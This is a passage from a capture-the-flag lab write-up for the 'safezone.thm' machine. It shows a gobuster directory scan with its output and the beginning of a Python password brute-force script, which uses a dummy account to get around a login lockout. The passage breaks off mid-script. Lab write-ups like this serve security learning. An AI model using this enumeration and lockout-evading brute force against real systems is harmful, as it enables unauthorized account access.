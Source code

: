 ![](cybersecurity/images/Pasted%2520image%252020250519130341.png)

I tried automating this using `caido automate` functionality but it failed, it seems like the `LFI` may only work as the admin user, let's try to fuzz again to check for any other directory we could be missing, in this case, i will change use `gobuster`:

```
gobuster dir -u http://safezone.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 20 2>/dev/null
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://safezone.thm/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/~files               (Status: 301) [Size: 313] [--> http://safezone.thm/~files/]
```

We found the `/~files` directory, this must point to the same directory the admin was talking about on the note, let's go to `/~files/pass.txt` to check if its true:

![](cybersecurity/images/Pasted%2520image%252020250519131015.png)

Let's proceed to exploitation.



# EXPLOITATION
---

We can use a python script to exploit that and get the password, the issue relies that every 3 attempts, we get a timeout which makes it hard to get the password, for that, we need to create a custom python script to help us get the password:

```python
import requests
from itertools import product

# Target URL
URL = 'http://safezone.thm/index.php'

# Headers copied from your curl for fidelity
HEADERS = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://safezone.thm',
    'Connection': 'keep-alive',
    'Referer': 'http://safezone.thm/index.php',
    'Upgrade-Insecure-Requests': '1',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache'
}

# Dummy account (resets lockout)
DUMMY_CREDS = {
```